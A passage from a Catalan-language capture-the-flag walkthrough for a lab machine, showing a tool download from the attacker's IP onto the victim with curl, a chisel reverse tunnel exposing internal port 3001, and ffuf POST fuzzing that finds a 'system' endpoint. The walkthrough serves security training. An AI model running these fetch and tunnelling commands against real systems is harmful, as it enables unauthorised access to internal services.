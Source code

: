i l'obtenim a la nostra màquina víctima amb `curl`.

```bash
curl http://192.168.1.181/chisel -O /tmp/chisel
chmod +x /tmp/chisel
```

Ara reenviem el port: a la nostra màquina atacant aixequem el servei de chisel al port `12312`.

```bash
chisel server -p 12312 --reverse
```

i a la màquina víctima redirigim el port `3001` cap a la IP de la nostra màquina atacant.

```bash
/tmp/chisel client 192.168.1.181:12312 R:3001:127.0.0.1:3001
```

Ara que podem accedir al port des de la nostra màquina, l’analitzem a la recerca d’endpoints vulnerables. Cal destacar que hi ha endpoints accessibles únicament mitjançant mètodes HTTP diferents de GET, i que poden respondre amb errors HTTP per diversos motius.

Amb el mètode GET trobem diversos endpoints, però cap de vulnerable; tots corresponen a la ruta /api, a la qual ja teníem accés des de fora (cursodex.thl/api).

Com que gobuster només permet fer fuzzing amb el mètode GET, utilitzem `ffuf`, que és més versàtil i permet provar altres mètodes.

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://127.0.0.1:3001/FUZZ -X POST -fc 404 -mc all
```

Els paràmetres:

- -w: Diccionari a utilitzar.
- -u: URL a escanejar.
- -X POST: Enviar peticions utilitzant el mètode POST.
- -mc all: Mostrar pàgines amb qualsevol codi d'estat HTTP.
- -fc 404: Filtrar (ocultar) només les respostes amb estat 404 (pàgina no trobada).

```bash
─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://127.0.0.1:3001/FUZZ -X POST -fc 404 -mc all

        /'___\  /'___\           /'___\   
       /\ \__/ /\ \__/  __  __  /\ \__/   
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\  
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/  
         \ \_\   \ \_\  \ \____/  \ \_\   
          \/_/    \/_/   \/___/    \/_/   

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://127.0.0.1:3001/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
________________________________________________

system                  [Status: 400, Size: 82, Words: 9, Lines: 1, Duration: 12ms]
System                  [Status: 400, Size: 82, Words: 9, Lines: 1, Duration: 7ms]
:: Progress: [220559/220559] :: Job [1/1] :: 6896 req/sec :: Duration: [0:00:45] :: Errors: 0 ::
```